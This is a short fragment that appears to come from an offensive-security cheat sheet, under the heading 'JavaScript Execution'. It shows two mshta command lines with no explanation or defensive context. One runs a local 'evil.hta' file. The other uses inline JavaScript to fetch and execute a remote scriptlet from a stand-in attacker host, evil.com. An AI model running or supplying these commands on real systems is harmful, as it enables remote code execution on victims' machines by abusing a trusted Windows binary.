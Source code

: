 # JavaScript Execution

```powershell
# A .hta file must consist of HTML source code.
mshta C:\evil.hta

mshta javascript:a=(GetObject('script:https://evil.com/evil.sct')).Exec();close();
```